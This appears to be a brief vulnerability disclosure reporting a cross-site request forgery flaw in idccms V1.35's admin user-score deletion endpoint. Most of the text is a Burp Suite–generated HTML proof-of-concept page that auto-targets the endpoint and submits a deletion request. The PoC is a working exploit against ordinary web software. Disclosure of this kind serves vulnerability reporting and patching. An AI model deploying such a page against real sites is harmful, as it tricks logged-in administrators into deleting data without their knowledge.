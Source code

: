 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/userScore_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BC%9A%E5%91%98%E7%A7%AF%E5%88%86%E8%AE%BE%E7%BD%AE&theme=%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C&dataID=1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/userScore_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BC%9A%E5%91%98%E7%A7%AF%E5%88%86%E8%AE%BE%E7%BD%AE&theme=%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C&dataID=1" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
